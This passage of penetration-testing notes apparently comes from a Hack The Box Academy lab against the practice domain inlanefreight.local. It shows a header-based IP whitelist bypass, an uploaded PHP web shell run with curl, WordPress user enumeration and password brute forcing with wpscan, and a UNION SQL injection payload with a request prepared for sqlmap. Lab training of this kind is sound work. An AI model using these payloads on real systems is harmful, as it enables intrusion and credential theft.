 **Whitelisted IP 127.0.0.1 or localhost**

![X-Custom-IP-Authorization: 127.0.0.1](https://academy.hackthebox.com/storage/modules/163/track\_method\_auth.png)

![File upload](https://academy.hackthebox.com/storage/modules/163/pixel\_shop.png)

try uploading simple web shell&#x20;

```php
<?php system($_GET['cmd']); ?>
```

```shell-session
curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### ir.inlanefreight.local

running wordpress, try wordpress scan to enumerate all plugins (`-ap`)

```shell-session
sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.local
```

enumerate WordPress users

```shell-session
wpscan -e u -t 500 --url http://ir.inlanefreight.local
```

brute-force one of the account passwords

```shell-session
wpscan --url http://ir.inlanefreight.local -P passwords.txt -U ilfreightwp
```

### status.inlanefreight.local

SQL injection

Try entering a sigle quote to get an error and if it does the try using payload

```sql
' union select null, database(), user(), @@version -- //
```

**SQL map**

Mark the injection point with \* and save it to file

```shell-session
POST / HTTP/1.1
Host: status.inlanefreight.local
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://status.inlanefreight.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://status.inlanefreight.local/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=s4nm572fgeaheb3lj86ha43c3p
Connection: close

searchitem=*
```
